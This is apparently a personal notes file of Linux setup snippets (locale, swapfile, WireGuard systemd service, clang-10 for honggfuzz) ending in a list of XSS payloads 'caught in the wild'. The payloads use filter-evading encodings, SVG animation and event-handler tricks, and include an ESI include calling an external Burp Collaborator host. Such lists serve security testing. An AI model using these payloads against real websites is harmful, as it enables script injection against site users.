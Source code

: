 ```

Setup locales:  
`update-locale LANG=pl_PL.utf8`

### Swapfile oneliner
```sh
sudo fallocate -l 1G /swapfile && sudo chmod 600 /swapfile && sudo mkswap /swapfile && sudo swapon /swapfile 
```

### Add wireguard to systemd:  
```sh
# Add:  
sudo systemctl enable wg-quick@wg0.service
sudo systemctl daemon-reload
# Run:  
sudo systemctl start wg-quick@wg0
# Check status:
systemctl status wg-quick@wg0
```  
### Ubuntu 18 clang-10 as "clang"
```
# Edit sources.list -> https://apt.llvm.org/ && accept key
sudo apt-get update && sudo apt-get install clang-10
```
To use clang-10 with honggfuzz as `hfuzz-clang`:  
 - https://gist.githubusercontent.com/junkdog/70231d6953592cd6f27def59fe19e50d/raw/92f0e73d2558402b7316021c1ab408b30e534de6/update-alternatives-clang.sh 

## Web Applications Security
### XSS
Some helpful payloads caught in the wild
```html
<svG x=1 onload=(co\u006efirm)``//
<embed src=//14.rs>
<marquee loop=1 width=0 onfinish=confirm(1)>
<marquee/onstart=alert(1)>
<esi:include src="http://abcdef.burpcollaborator.net/" /><script>alert(1)</script>
<svg><a><rect width=100% height=100% /><animate attributeName=href to=javascript:alert(document.location)>
<svg><a><animate attributeName=href to=javascript:alert(document.location) /><text y=15>Click me!</text></a>
<svg><animate xlink:href=#xss attributeName=href alues="&#01;&#02;&#03;&#04;&#05;&#06;&#07;&#08;&#09;&#10;&#11;&#12;&#13;&#14;&#15;&#16;&#17;&#18;&#19;&#20;&#21;&#22;&#23;&#24;&#25;&#26;&#27;&#28;&#29;&#30;&#31;&#32;javascript:alert(1)" /><a id=xss><text x=20 y=20>XSS</text></a>
<details/open/ontoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];">
＜/script＞injected2＜script＞alert(1)//＜/script＞ # < vs ＜
```
